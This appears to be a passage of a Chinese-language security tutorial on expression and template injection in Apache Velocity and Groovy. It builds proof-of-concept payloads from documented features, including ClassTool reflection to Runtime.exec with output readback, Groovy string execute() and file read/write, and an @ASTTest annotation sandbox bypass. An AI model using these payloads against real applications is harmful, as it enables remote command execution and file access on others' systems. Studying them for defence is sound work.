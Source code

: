 Velocity并没有专门提及表达式相关内容，在官方文档查找自带的一些对象时，有个目录叫做工具，包含通用工具、视图工具等：<https://velocity.apache.org/tools/3.1/tools-summary.html>

通用工具中包含了ClassTool`$class`、FieldTool`$field`等。这不禁联想是否满足反射获取对象，进而构造POC。想要调用方法首先要获取对象，在查看官方文档的过程中，ClassTool包含如下一条，可以返回指定类或对象的实例

```
$class.inspect(class/object/string): returns a new ClassTool instance that inspects the specified class or object
```

POC构造：

```
$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor()

#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

## groovy

Groovy的诞生是作为Java的补充语言而创建的脚本语言，所以语法与Java极其类似，但借鉴了动态语言Ruby、Python、Smalltalk。关于它的一篇论文《A History of the Groovy Programming Language》：<https://dl.acm.org/doi/pdf/10.1145/3386326>

Groovy的表达式样式也是`${}`。翻看说明目录的时候除了介绍常用的语法（类似Java）发现了一个名为working with IO的工具包：<https://docs.groovy-lang.org/latest/html/documentation/#process-management> 。包括读写文件、执行外部进程等工具。

（1）执行外部进程。Groovy提供了`'字符串'.execute()`的方式来调用外部进程，那么可以利用此方式来弹计算器

```
${"calc.exe".execute()}
```

（2）读写文件。Groovy支持`new File(baseDir, 'xx.txt')`的方式来操作文件。所以可以采用如下的方式来读取文件或创建文件

```
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```

说明文档中有很大的篇幅说明了Groovy中的元编程部分。一般编程操作的是数据，而元编程操作的是代码，简单理解就是用代码来生成代码。元编程分为运行时和编译时。编译时元编程会在编译时生成代码，转换成AST。不同的注解能生成不同的方法，例如`@ToString`能将类中属性编程字符串，`@EqualsAndHashCode`能自动生成equals和hashcode方法。

注解也有很多种，代表设计模式的注解（`@DelegateAST`委托设计模式、`@Singleton`单例设计模式）；日志框架类注解（`@groovy.util.logging.Log`）；并发模式注解（`@groovy.transform.Synchronized`）；测试用例相关注解（`@groovy.transform.ASTTest`）等

测试用例注解中的`@groovy.transform.ASTTest`，这是Orange在绕过Groovy沙箱时用到的技巧。该注解有两个参数`phase`和`value`。对于`value`官方给出的解释是`value: the code which will be executed once the phase is reached, on the annotated node`。也就是被标记为`@ASTTest`的节点，其value的代码会被执行。从而构造出了如下POC

```
${@ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x}

${new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```
